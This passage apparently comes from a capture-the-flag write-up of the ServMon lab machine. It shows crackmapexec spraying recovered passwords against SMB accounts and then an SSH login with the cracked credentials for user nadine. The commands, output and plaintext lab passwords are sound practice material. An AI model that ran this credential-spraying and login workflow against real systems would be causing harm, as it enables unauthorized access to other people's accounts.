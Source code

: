 
I can now use `crackmapexec` to see if any of these passwords work for any of the users for smb:

```

root@kali# crackmapexec smb 10.10.10.184 -u users -p passwords
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 18362 x64 (name:SERVMON) (domain:SERVMON) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [+] SERVMON\nadine:L1k3B1gBut7s@W0rk 

```

I’ve got a match, nadine / L1k3B1gBut7s@W0rk.

### SSH

Since SSH is listening on this Windows box, I can use that to get a shell:

```

root@kali# sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184
Microsoft Windows [Version 10.0.18363.752]          
(c) 2019 Microsoft Corporation. All rights reserved.
                                                          
nadine@SERVMON C:\Users\Nadine>

```

